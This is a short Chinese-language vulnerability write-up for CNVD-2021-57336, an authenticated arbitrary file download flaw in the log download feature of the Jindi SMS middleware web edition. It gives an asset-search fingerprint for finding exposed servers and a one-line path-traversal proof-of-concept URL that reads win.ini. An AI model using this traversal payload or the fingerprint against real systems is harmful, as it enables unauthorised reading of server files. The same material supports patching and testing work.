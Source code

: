 # 金笛 短信中间件Web版 log 后台任意文件下载漏洞 CNVD-2021-57336

## 漏洞描述

金笛 短信中间件Web版后台存在任意文件下载漏洞，攻击者通过漏洞可以获取服务器任意文件信息

## 漏洞影响

```
金笛 短信中间件Web版
```

## 网络测绘

```
app="金笛短信中间件(WEB版)"
```

## 漏洞复现

登录页面

![image-20220525150803211](./images/202205251508287.png)

存在漏洞的位置为 日志下载

![](./images/202205251508351.png)

验证POC

```
/log?action=view&pageIndex=1&name=../../../windows/win.ini
```

![](./images/202205251508651.png)